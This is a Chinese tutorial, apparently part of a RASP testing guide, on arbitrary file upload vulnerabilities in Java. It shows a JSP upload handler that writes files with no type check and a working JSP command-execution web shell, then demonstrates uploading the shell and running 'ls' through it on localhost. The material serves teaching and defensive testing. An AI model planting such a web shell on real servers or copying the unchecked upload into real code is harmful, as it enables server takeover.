



# 任意文件上传漏洞

Web应用通常都会包含文件上传功能，用户可以将其本地的文件上传到Web服务器上。如果服务器端没有能够正确的检测用户上传的文件类型是否合法(例如上传了`jsp`后缀的`WebShell`)就将文件写入到服务器中就可能会导致服务器被非法入侵。

## 1. Apache commons-fileupload文件上传测试

`Apache commons-fileupload`是一个非常常用的文件上传解析库，`Spring MVC`、`Struts2`、`Tomcat`等底层处理文件上传请求都是使用的这个库，所以`RASP`必须能够支持使用`Apache commons-fileupload`库解析的文件上传请求。

示例-`Apache commons-fileupload`：

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.commons.fileupload.FileItemIterator" %>
<%@ page import="org.apache.commons.fileupload.FileItemStream" %>
<%@ page import="org.apache.commons.fileupload.servlet.ServletFileUpload" %>
<%@ page import="org.apache.commons.fileupload.util.Streams" %>
<%@ page import="java.io.File" %>
<%@ page import="java.io.FileOutputStream" %>
<%
    if (ServletFileUpload.isMultipartContent(request)) {
        ServletFileUpload fileUpload       = new ServletFileUpload();
        FileItemIterator  fileItemIterator = fileUpload.getItemIterator(request);

        String dir       = request.getServletContext().getRealPath("/uploads/");
        File   uploadDir = new File(dir);

        if (!uploadDir.exists()) {
            uploadDir.mkdir();
        }

        while (fileItemIterator.hasNext()) {
            FileItemStream fileItemStream = fileItemIterator.next();
            String         fieldName      = fileItemStream.getFieldName();// 字段名称

            if (fileItemStream.isFormField()) {
                String fieldValue = Streams.asString(fileItemStream.openStream());// 字段值
                out.println(fieldName + "=" + fieldValue);
            } else {
                String fileName   = fileItemStream.getName();
                File   uploadFile = new File(uploadDir, fileName);
                out.println(fieldName + "=" + fileName);
                FileOutputStream fos = new FileOutputStream(uploadFile);

                // 写文件
                Streams.copy(fileItemStream.openStream(), fos, true);

                out.println("文件上传成功:" + uploadFile.getAbsolutePath());
            }
        }
    } else {
%>
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>File upload</title>
</head>
<body>
<form action="" enctype="multipart/form-data" method="post">
    <p>
        用户名: <input name="username" type="text"/>
        文件: <input id="file" name="file" type="file"/>
    </p>
    <input name="submit" type="submit" value="Submit"/>
</form>
</body>
</html>
<%
    }
%>
```

示例-本地命令执行后门代码：

```jsp
<%@ page import="java.io.InputStream" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<pre>
<%
    String[] cmd = request.getParameterValues("cmd");
    Process process = Runtime.getRuntime().exec(cmd);
    InputStream in = process.getInputStream();
    int a = 0;
    byte[] b = new byte[1024];

    while ((a = in.read(b)) != -1) {
        out.println(new String(b, 0, a));
    }

    in.close();
%>
</pre>
```

因为Web应用未检测用户上传的文件合法性导致了任意文件上传漏洞，访问：http://localhost:8000/modules/servlet/fileupload/file-upload.jsp，并选择一个恶意的jsp后门(示例上传的是一个本地命令执行的后门):



后门成功的写入到了网站目录：



访问命令执行后门测试：http://localhost:8000/uploads/cmd.jsp?cmd=ls，如下图：



